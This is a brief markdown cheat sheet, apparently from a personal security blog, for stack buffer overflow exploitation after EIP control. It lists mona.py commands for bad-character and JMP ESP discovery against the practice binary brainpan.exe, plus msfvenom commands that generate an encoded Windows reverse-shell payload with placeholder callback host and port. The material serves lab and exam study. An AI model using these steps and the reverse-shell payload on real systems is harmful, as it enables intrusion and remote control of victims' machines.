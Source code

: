 ```yaml
---
title: "Buffer Overflow Cheatsheet"
date: 2021-12-01T00:20:30+01:00
categories:
  - Resources
tags:
  - Bufferoverflows
  - Cheatsheet
share: false
#layout: single
classes: wide
---
```


### This is all after getting control of EIP

Set a **working folder**
`!mona config -set workingfolder C:\Users\shroudri\%p`


Generate bytearray
``!mona bytearray``

Generate bytearray excluding a certain badchar
`!mona bytearray -cpb "\x00"`
`!mona bytearray -cpb "\x00\x0a\etc"`


Compare ESP with generated bytearray to check for badchars automatically
`!mona compare -f C:\Users\shroudri\%p\bytearray.bin -a <ESP_ADRESS> #(e.g 00F23930)`

Generate revshell with msfvenom
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00" EXITFUNC=thread`
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00\x0a\xaf" EXITFUNC=thread`


List all available programs
`!mona modules`

### Next step: We want to make EIP point to ESP
This command will find an instruction within a program to jump to the ESP (FFE4 == jmp_esp)
`!mona find -s "\xFF\xE4" -m brainpan.exe`

Because shikata_ga_nai is being used, a few NOPs must be introduced between EIP and Shellcode
`NOPS= "x90"*16`